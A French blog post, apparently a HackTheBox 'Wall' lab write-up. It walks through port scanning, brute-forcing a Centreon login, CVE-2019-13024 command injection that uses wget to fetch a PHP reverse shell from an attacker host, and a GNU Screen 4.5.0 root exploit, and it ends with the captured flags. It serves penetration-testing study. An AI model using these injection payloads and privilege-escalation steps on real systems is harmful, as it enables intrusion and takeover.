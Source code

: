 ```yaml
---
layout: post
title: HackTheBox - Wall
tags: [Mermaid]
mermaid: true
---
```


![WALL]({{ site.baseurl }}/images/wall.jpg){:class="img-responsive"}

## TL;DR

Cette machine vous confrontera à un Firewall applicatif (WAF) que vous devrez contourner afin d'exploiter un applicatif web. Une machine vraiment intéressante avec un aspect réaliste.  

## Exploitation

Scan des ports via Nmap : 

```bash
root@kali:~/wall# nmap -p- -sCV 10.10.10.157 -oA wall
Starting Nmap 7.70 ( https://nmap.org ) at 2019-09-18 13:44 CEST
Nmap scan report for 10.10.10.157
Host is up (0.023s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.23 seconds
```

En ouvrant le port 80 dans un navigateur, je tombe sur une page par défaut d'Apache sur Ubuntu. 
Je lance donc `dirsearch` : 

```bash
root@kali:~/wall# ../dirsearch/dirsearch.py -u http://10.10.10.157/centreon -e php,txt,html,jsp,asmx,aspx,c,bin,elf   -w /usr/share/wordlists/CUSTOM_MEGA_LIST_URL -t 10

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: php, txt, html, jsp, asmx, aspx, c, bin, elf | Threads: 10 | Wordlist size: 211325

Error Log: /root/dirsearch/logs/errors-19-09-18_13-03-13.log

Target: http://10.10.10.157/centreon

[13:03:13] Starting: 
[13:03:15] 301 -  319B  - /centreon/api  ->  http://10.10.10.157/centreon/api/
[13:03:17] 301 -  321B  - /centreon/class  ->  http://10.10.10.157/centreon/class/
[13:03:24] 301 -  319B  - /centreon/img  ->  http://10.10.10.157/centreon/img/
[13:03:24] 301 -  323B  - /centreon/include  ->  http://10.10.10.157/centreon/include/
[13:03:26] 301 -  319B  - /centreon/lib  ->  http://10.10.10.157/centreon/lib/
[13:03:28] 301 -  323B  - /centreon/modules  ->  http://10.10.10.157/centreon/modules/
[13:03:36] 301 -  322B  - /centreon/static  ->  http://10.10.10.157/centreon/static/
[13:03:39] 301 -  323B  - /centreon/widgets  ->  http://10.10.10.157/centreon/widgets/
[13:03:40] 200 -    3KB - /centreon/
[13:03:45] 301 -  322B  - /centreon/sounds  ->  http://10.10.10.157/centreon/sounds/
[13:03:50] 301 -  322B  - /centreon/locale  ->  http://10.10.10.157/centreon/locale/
```

> Note : J'ai créé une liste a base de `https://github.com/SanSYS/subdscan/blob/master/wordlist.txt` et de `/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`

Je tombe enfin sur une page de login Centreon, mais je n'ai pas d'identifiants, place au Bruteforce : 

```bash
root@kali:~/wall# hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 80 10.10.10.157 http-post-form "/centreon/api/index.php?action=authenticate:username=^USER^&password=^PASS^:Bad credentials"
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-09-18 13:41:39
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.10.157:80/centreon/api/index.php?action=authenticate:username=^USER^&password=^PASS^:Bad credentials
[80][http-post-form] host: 10.10.10.157   login: admin   password: password1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-09-18 13:41:58
```

> Note : Ici avec l'API car impossible depuis l'interface graphique 

Pour la suite nous devons exploiter la CVE-2019-13024 pour exécuter des commandes sur la machine distante.

Je lance ZAP, le branche sur firefox et navigue sur Centreon.

Puis, depuis Centreon, je créer un Poller : 

![wall1]({{ site.baseurl }}/images/wall1.png)

J'active l'interception sur ZAP et clique sur save (depuis Centreon):

![wall2]({{ site.baseurl }}/images/wall2.png)

Je forge une requête avec la commande `/usr/bin/wget http://10.10.14.65:8888/rev.php #` qui permet de télécharger mon reverse shell : 

```bash
submitC=Save&name=Central&ns_ip_address=127.0.0.1&localhost%5Blocalhost%5D=1&is_default%5Bis_default%5D=0&ssh_port=22&init_script=centengine&nagios_bin=/usr/bin/wget http://10.10.14.65:8888/rev.php # &nagiostats_bin=%2Fusr%2Fsbin%2Fcentenginestats&nagios_perfdata=%2Fvar%2Flog%2Fcentreon-engine%2Fservice-perfdata&centreonbroker_cfg_path=%2Fetc%2Fcentreon-broker&centreonbroker_module_path=%2Fusr%2Fshare%2Fcentreon%2Flib%2Fcentreon-broker&centreonbroker_logs_path=&centreonconnector_path=%2Fusr%2Flib64%2Fcentreon-connector&init_script_centreontrapd=centreontrapd&snmp_trapd_path_conf=%2Fetc%2Fsnmp%2Fcentreon_traps%2F&ns_activate%5Bns_activate%5D=1&id=1&o=c&centreon_token=6d3db5b978c19360ade68625519ec8b4
```

Par ce biais j’écris mon exploit dans le Poller que j'ai créé juste avant depuis l'interface web, j'utilise ensuite l'exploit pour lancer la commande (et donc le téléchargement du shell) :

![wall3]({{ site.baseurl }}/images/wall3.png)

Le reverse shell est téléchargé et je peux le lancer en appelant `http://10.10.10.157/centreon/rev.php` . Pour obtenir un prompt plus utilisable, j'utilise cette commande :

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

Enfin, je recherche les fichier SUID root : 

```bash
find / -perm -u=s -type f 2>/dev/null
```

La commande `screen` et `ping` sont disponible en suid mais Sur GTFOBins, aucun exploit n'a marché. 
Je cherche donc un exploit avec `searchsploit` : 

```bash
root@kali:~# searchsploit screen 4.5
------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                 |  Path
                                                                               | (/usr/share/exploitdb/)
------------------------------------------------------------------------------- ----------------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation                                  | exploits/linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                            | exploits/linux/local/41152.txt
------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

Je copie donc le fichier sur le serveur, et le lance : 

```bash
bash: ./41154.sh: /bin/bash^M: bad interpreter: No such file or directory
www-data@Wall:/tmp$ sed -i -e 's/\r$//' 41154.sh
```

Une erreur d'encodage empêche le lancement du script, je le corrige avec cette commande :

```bash
sed -i -e 's/\r$//' 41154.sh
```

Maintenant je lance le script : 

```bash
$ /tmp/41154.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function 'dropshell':
/tmp/libhax.c:7:5: warning: implicit declaration of function 'chmod'; did you mean 'chroot'? [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^~~~~
     chroot
/tmp/rootshell.c: In function 'main':
/tmp/rootshell.c:3:5: warning: implicit declaration of function 'setuid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
     setuid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:4:5: warning: implicit declaration of function 'setgid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
     setgid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:5:5: warning: implicit declaration of function 'seteuid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
     seteuid(0);
     ^~~~~~~
     setbuf
/tmp/rootshell.c:6:5: warning: implicit declaration of function 'setegid' [-Wimplicit-function-declaration]
     setegid(0);
     ^~~~~~~
/tmp/rootshell.c:7:5: warning: implicit declaration of function 'execvp' [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^~~~~~
/usr/bin/ld: cannot open output file /tmp/rootshell: Permission denied
collect2: error: ld returned 1 exit status
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
There are screens on:
        1480..Wall      (Detached)
        1491..Wall      (Detached)
        1593..Wall      (Detached)
        1510..Wall      (Detached)
        1425..Wall      (Detached)
5 Sockets in /tmp/screens/S-www-data.
id
uid=0(root) gid=0(root) groups=0(root),33(www-data),6000(centreon)
```

J'affiche les flag : 

```bash
cat /home/shelby/user.txt
fe6194544f452f62dc905b12f8da8406
cat /root/root.txt
1fdbcf8c33eaa2599afdc52e1b4d5db7
```

ROOTED !!!! 

## Ce que j'ai appris 

- Rester simple, je suis sur un serveur web : je fais un reverse shell en php 
- Si exploit il y a, je le test avant de me lancer dans un exploit manuel 

## Sources :

CVE : https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/
PRIVESC : https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
COMMAND INJECTION : https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection